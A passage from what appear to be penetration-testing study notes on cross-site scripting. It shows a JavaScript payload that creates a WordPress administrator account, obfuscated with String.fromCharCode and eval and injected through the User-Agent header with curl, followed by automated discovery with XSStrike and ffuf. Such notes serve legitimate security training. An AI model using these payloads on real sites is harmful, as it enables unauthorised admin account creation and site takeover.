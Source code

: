 
1. **Compress the JavaScript Code**: use the tool [JSCompress](https://jscompress.com/).

    var params = "action=createuser&_wpnonce_create-user=" + nonce + "&user_login=newadmin&email=newadmin@example.com&pass1=newpassword&pass2=newpassword&role=administrator";
    var request = new XMLHttpRequest();
    request.open("POST", targetURL, true);
    request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    request.send(params);
    

1. **Encode the JavaScript Payload**: use the following JS function.

    function toJavaScriptEncoding(str) {
        var result = &#39;&#39;;
        for (var i = 0; i < str.length; i++) {
            result += str.charCodeAt(i);
            if (i !== str.length - 1) {
                result += ",";
            }
        }
        return result;
    }
    
    let encodedPayload = toJavaScriptEncoding(&#39;insert_minified_javascript&#39;);
    console.log(encodedPayload);
    

1. **Request and Execute the Payload**: the function `eval` is responsible for
                  interpreting the string as code and execute it.

    curl -i http://example.com --user-agent "<script>eval(String.fromCharCode(<resultFromRunningAboveScritpToEncode>))</script>" --proxy 127.0.0.1:8080
    

#### 3.2.7 Automated Discovery

- We can use the tool **XSS Strike**:

    git clone https://github.com/s0md3v/XSStrike.git
    cd XSStrike
    pip install -r requirements.txt
    
    python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
    

- We can also use **fuzzing** (sometimes trying the `user-agent` could also
                  reveal a vulnerable field):

    # [xss.req] is the request captured from BurpSuite.
    ffuf -ic -c -of csv -request-proto http -request [xss.req] -w XSS-RSNAKE.txt
    

- **Wordlist**: [https://github.com/tennc/fuzzdb/blob/master/attack-payloads/xss/xss-rsnake.txt](https://github.com/tennc/fuzzdb/blob/master/attack-payloads/xss/xss-rsnake.txt).
                

### 3.3. File Inclusion
